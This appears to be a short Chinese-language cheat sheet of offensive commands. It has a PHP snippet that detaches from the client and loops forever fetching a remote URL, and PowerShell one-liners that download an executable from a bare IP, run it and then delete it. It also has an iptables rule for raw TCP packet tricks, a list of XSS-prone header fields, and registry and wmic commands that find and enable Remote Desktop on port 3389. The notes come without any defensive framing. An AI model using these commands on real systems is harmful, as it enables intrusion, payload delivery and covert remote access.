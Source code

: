 
php 后台运行
```
ignore_user_abort(true);
set_time_limit(10); 
ob_end_clean();
header("Connection: close");
flush();
if (function_exists("fastcgi_finish_request")) {
fastcgi_finish_request();
}
while(1)
    file_get_contents("http://1.1.1.1/1.php.txt");

```

发包模拟tcp:

    iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP

powershell常用：

    打包:
    powershell -Command "Compress-Archive -LiteralPath D:\mt4mate\upfile\115   -DestinationPath  D:\mt4mate\upfile\115\a.zip"

    powershell -command "Add-Type -Assembly 'System.IO.Compression.FileSystem' ; [System.IO.Compression.ZipFile]::CreateFromDirectory('d:\1\upfile\115\images', 'd:\1\upfile\1.zip') ;"
    
    下载：
    powershell -Command "Invoke-WebRequest -Uri http://41.11.1.1/a.exe -OutFile     a.exe"

    删除文件：
    powershell -Command "Remove-Item a.exe -Force"

    执行默认功能：
    powershell -Command "Invoke-Item D:\mt4mate\upfile\115\a.exe"

XSS 字段:

    HTTP_X_FORWARDED_FOR
    HTTP_CLIENT_IP
    REMOTE_ADDR


找3389端口:

    tasklist 找 svchost termservice 找到pid
    然后netstat 查看pid 对应监听端口

开启3389：
    设置远程桌面端口
    reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f
    #开启远程桌面

    net start TermService

    wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
    #检查端口状态
    netstat -an|find "3389"
    #关闭远程桌面
    wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 0
    